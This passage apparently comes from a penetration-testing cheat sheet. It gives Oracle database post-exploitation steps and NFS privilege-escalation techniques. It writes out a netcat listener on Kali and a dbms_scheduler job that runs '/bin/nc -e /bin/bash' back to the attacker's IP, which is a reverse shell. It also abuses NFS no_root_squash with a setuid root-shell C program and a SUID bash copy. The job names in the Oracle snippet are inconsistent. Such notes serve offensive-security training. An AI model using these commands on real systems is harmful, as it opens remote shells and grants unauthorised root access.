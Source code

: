 ```
select user from sys.dual;
```
LOGIN WITH NEW USER - VIA RAZORSQL
```
select * from session_privs;
```
Start listener on Kali:
```bash
nc -lnvp 9999
```
Create job:
```
begin
dbms_scheduler.create_job( job_name => 'TEST',job_type =>
'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
SYSTIMESTAMP,enabled => FALSE,auto_drop => TRUE);
dbms_scheduler.set_job_argument_value('TESTX', 1, 'KALI_IP');
dbms_scheduler.set_job_argument_value('TESTX', 2, '9999');
dbms_scheduler.set_job_argument_value('TESTX', 3, '-e');
dbms_scheduler.set_job_argument_value('TESTX', 4, '/bin/bash');
dbms_scheduler.enable('TESTX');
end;
```

### SQL Injection References
* [http://pentestmonkey.net/category/cheat-sheet/sql-injection]
* [https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/]
* [https://securiteam.com/securityreviews/5DP0N1P76E}



## 2049 - NFS
### Enumeration
```bash
showmount -e <hostname/IP>
```
```bash
mount -t nfs <IP>:/directory_found_exported /local_directory
```
### no_root_squash 
Case 1:
```c
int main(void) {
setgid(0); setuid(0);
execl(“/bin/sh”,”sh”,0); }
```
```bash
chown root.root ./pwnme
chmod u+s ./pwnme
```
Case 2:
```bash
cp /bin/bash local_shell
```
```bash
cat local_shell > spawn_root_shell
chmod 4777 !$
```
```bash
./spawn_root_shell -p
```
### Configuration Files
* /etc/exports
* /etc/lib/nfs/xtab
